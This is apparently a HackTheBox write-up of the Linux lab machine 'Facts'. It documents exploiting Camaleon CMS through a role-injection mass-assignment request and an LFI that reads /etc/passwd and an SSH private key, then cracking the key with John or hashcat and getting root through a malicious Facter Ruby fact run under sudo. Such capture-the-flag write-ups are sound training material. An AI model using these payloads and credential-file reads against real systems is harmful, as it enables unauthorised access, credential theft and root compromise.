










# Facts - HackTheBox Writeup


## Box Info

| Name | Facts |
|------|-------|
| OS | Linux |
| Difficulty | Medium |
| Release Date | 2026 |

---

## Table of Contents

- [Reconnaissance](#reconnaissance)
  - [Nmap Scan](#nmap-scan)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [CVE-2025-2304 - Mass Assignment Privilege Escalation](#cve-2025-2304---mass-assignment-privilege-escalation)
- [User Access](#user-access)
  - [CVE-2024-46987 - Local File Inclusion](#cve-2024-46987---local-file-inclusion)
  - [Cracking SSH Key](#cracking-ssh-key)
- [Privilege Escalation](#privilege-escalation)
  - [Facter Sudo Abuse](#facter-sudo-abuse)

---

## Reconnaissance

### Nmap Scan

```bash
nmap -sCV -oA nmap/facts -vv -Pn 10.129.26.255
```




**Key Findings:**
- SSH on port 22 (OpenSSH 9.9p1)
- HTTP on port 80 (nginx 1.26.3) - redirects to `http://facts.htb`

Add the host to `/etc/hosts`:

```bash
echo "10.129.26.255 facts.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration
```bash
gobuster dir -u http://facts.htb -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
```



**Key Finding:** `/admin` reveals a **Camaleon CMS** login panel.




---

## Foothold

### CVE-2025-2304 - Mass Assignment Privilege Escalation

**Vulnerability:** Camaleon CMS is vulnerable to privilege escalation through mass assignment in the `updated_ajax` method of UsersController.

**CVSS Score:** 9.4 (Critical)

**Affected Versions:** < 2.9.1

#### Exploitation Steps

1. Register a normal user account on the website
2. Login and navigate to profile/password change
3. Intercept the password change request with Burp Suite
4. Inject the `role` parameter to escalate to admin

**Original Request:**
```http
POST /admin/users/5/updated_ajax HTTP/1.1
Host: facts.htb
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Cookie: _factsapp_session=SESSION_COOKIE; auth_token=AUTH_TOKEN

_method=patch&authenticity_token=TOKEN&password[password]=test&password[password_confirmation]=test
```

**Modified Request (with role injection):**
```http
POST /admin/users/5/updated_ajax HTTP/1.1
Host: facts.htb
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Cookie: _factsapp_session=SESSION_COOKIE; auth_token=AUTH_TOKEN

_method=patch&authenticity_token=TOKEN&password[password]=test&password[password_confirmation]=test&password[role]=admin
```



**Result:** User successfully escalated to administrator!


---

## User Access

### CVE-2024-46987 - Local File Inclusion

**Vulnerability:** Camaleon CMS allows authenticated administrators to read arbitrary files through Local File Inclusion.

With admin access obtained from CVE-2025-2304, we can now exploit the LFI vulnerability to read sensitive files.

#### Reading /etc/passwd to check the existing users

```
/etc/passwd
```



#### Reading SSH Private Key

Located a user's SSH private key:

```
/home/trivia/.ssh/id_rsa
```



### Cracking SSH Key

The SSH key is password protected. Extract the hash and crack it:

```bash
# Convert to crackable hash
ssh2john id_rsa > hash.txt

# Crack with John
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Or with Hashcat (Windows):**

```powershell
.\hashcat.exe -m 22921 hash.txt rockyou.txt
```

**Cracked Password:** `[REDACTED]`



### SSH Access

```bash
chmod 600 id_rsa
ssh -i id_rsa trivia@facts.htb
```

Enter the cracked passphrase when prompted.



**User Flag:** ✅

---

## Privilege Escalation

### Facter Sudo Abuse

#### Enumeration

```bash
sudo -l
```

```
User [USERNAME] may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

#### GTFOBins - Facter

Reference: https://gtfobins.github.io/gtfobins/facter/#sudo

Facter allows loading custom facts from a specified directory. We can create a malicious Ruby fact file that spawns a shell.

#### Exploitation

1. Create a directory for custom facts:

```bash
mkdir -p /tmp/facts
```

2. Create a malicious Ruby fact:

```bash
cat > /tmp/facts/pwned.rb << 'EOF'
Facter.add(:pwned) do
  setcode do
    system("/bin/bash")
  end
end
EOF
```

3. Execute facter with sudo:

```bash
sudo facter --custom-dir=/tmp/facts/ pwned
```



**Root Flag:** ✅


## Attack Chain Summary

```
┌─────────────────────────────────────────────────────────────────┐
│                         RECONNAISSANCE                          │
│                    Nmap + Gobuster + Manual                     │
└─────────────────────────────────────────────────────────────────┘
                                │
                                ▼
┌─────────────────────────────────────────────────────────────────┐
│                     CVE-2025-2304                               │
│              Mass Assignment Privilege Escalation               │
│                   (Regular User → Admin)                        │
└─────────────────────────────────────────────────────────────────┘
                                │
                                ▼
┌─────────────────────────────────────────────────────────────────┐
│                     CVE-2024-46987                              │
│                   Local File Inclusion                          │
│                  (Read SSH Private Key)                         │
└─────────────────────────────────────────────────────────────────┘
                                │
                                ▼
┌─────────────────────────────────────────────────────────────────┐
│                    SSH Key Cracking                             │
│                 John the Ripper / Hashcat                       │
└─────────────────────────────────────────────────────────────────┘
                                │
                                ▼
┌─────────────────────────────────────────────────────────────────┐
│                       SSH Access                                │
│                      (User Shell)                               │
└─────────────────────────────────────────────────────────────────┘
                                │
                                ▼
┌─────────────────────────────────────────────────────────────────┐
│                   Facter Sudo Abuse                             │
│               Custom Ruby Fact Execution                        │
│                   (User → Root)                                 │
└─────────────────────────────────────────────────────────────────┘
```

---

## References

- [CVE-2025-2304 - Tenable Advisory](https://www.tenable.com/security/research/tra-2025-09)
- [CVE-2024-46987 - NVD](https://rubysec.com/advisories/CVE-2024-46987)
- [GTFOBins - Facter](https://gtfobins.github.io/gtfobins/facter/#sudo)
- [Camaleon CMS GitHub](https://github.com/owen2345/camaleon-cms)

---

## Tools Used

- Nmap
- Gobuster
- Burp Suite
- ssh2john
- John the Ripper / Hashcat
- GTFOBins

---

> **Author:** Sherwin Laconsay
> 
> **Date:** February 2026
